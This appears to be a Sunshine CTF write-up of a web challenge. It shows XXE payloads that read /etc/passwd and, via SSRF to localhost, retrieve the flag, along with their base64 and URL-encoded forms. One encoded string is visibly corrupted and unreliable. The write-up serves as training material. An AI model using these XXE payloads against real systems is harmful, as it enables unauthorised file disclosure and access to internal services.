 # Sunshine CTF

## Challenge #1: Patches Punches (reversing)


## Challenge #2: Wrestler Name Generator (web)

This challenge presented a website which, upon entering the first and last name and choosing a weapon of choice, would generate a wrestler name. The landing page looks like this:

![Screenshot](/ctf/images/pic1.png?raw=true)

**Screenshot of the main landing page**

![Screenshot](/ctf/images/pic2.png?raw=true)

**Screenshot of the result page**

The first step I took was to look at the page source, and I found the javascript at the bottom of the page (included below). I noticed that the main purpose of the JS is to pass the entered first and last name as an XML object, encoded as base-64 and made safe for URL as a GET parameter to the page /generate.php?input=XMLSTRING.

```javascript
document.getElementById("button").onclick = function() {
  var firstName = document.getElementById("firstName").value;
  var lastName = document.getElementById("lastName").value;
  var input = btoa("<?xml version='1.0' encoding='UTF-8'?><input><firstName>" + firstName + "</firstName><lastName>" + lastName+ "</lastName></input>");
  window.location.href = "/generate.php?input="+encodeURIComponent(input);
};
```

Similarly, examining the source code of the result page (second screenshot) yielded this interesting comment: 

```
<!--hacker name functionality coming soon!-->
<!--if you're trying to test the hacker name functionality, make sure you're accessing this page from the web server-->
<!--<h2>Your Hacker Name Is: REDACTED</h2>-->
```

Immediately, I thought about exploiting the common XXE (XML External Entity) vulnerability. Rather than entering the XML exploit into the input element of the website, I tried passing the XML string drectly into the URL `http://ng.sunshinectf.org/generate.php?input=[XML]`.

The XML object format was this:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<input>
  <firstName>firstName</firstName>
  <lastName>lastName</lastName>
</input>
```

Encoded into a URL safe base-64 string, this XML object became this: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz4KPGlucHV0PgogIDxmaXJzdE5hbWU%2BZmlyc3ROYW1lPC9maXJzdE5hbWU%2BCiAgPGxhc3ROYW1lPmxhc3ROYW1lPC9sYXN0TmFtZT4KPC9pbnB1dD4%3D` passing that string to the generate.php page as the input parameter successfully rendered the page.

I then tried to pass an XML entity exploit to see if it would yield a result. So, I tried accessing `/etc/passwd`. I used the following XML code:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<input>
  <firstName>Kim</firstName>
  <lastName>&xxe;</lastName>
</input>
```

Which encoded and made URL safe yielded the string: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz4KPCFET0NUWtionVBFIGVybncgWyA8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiID4gXT4KPGlucHV0PgogIDxmaXJzdE5hbWU%2BS2ltPC9maXJzdE5hbWU%2BCiAgPGxhc3ROYW1lPiZ4eGU7PC9sYXN0TmFtZT4KPC9pbnB1dD4%3D`. This string, entered into the URL parameter yielded the following result page.

![Screenshot](/ctf/images/pic4.png?raw=true)

This is promising! It shows the contents of `/etc/passwd`. So let;s try to figure out how to get the actual flag. I thought that it might have to do with the aoffrementioned comment on the /generate.php page (that the page needs to be accessed from the webserver to see the secret Hacker Name). So I tried to use the XML function to access a remote host's page by replacing `file:///etc/passwd` with `http://localhost/generate.php`. The final XML string passed was:


```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "http://localhost/generate.php" > ]>
<input>
  <firstName>Kim</firstName>
  <lastName>&xxe;</lastName>
</input>
```

Whhich was translated into this string: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZXJudyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImh0dHA6Ly9sb2NhbGhvc3QvZ2VuZXJhdGUucGhwIiA%2BIF0%2BPGlucHV0PjxmaXJzdE5hbWU%2BS2ltPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ4eGU7PC9sYXN0TmFtZT48L2lucHV0Pg%3D%3D`, which passed to the /generate.php page yielded the flag:

![Screenshot](/ctf/images/pic5.png?raw=true)
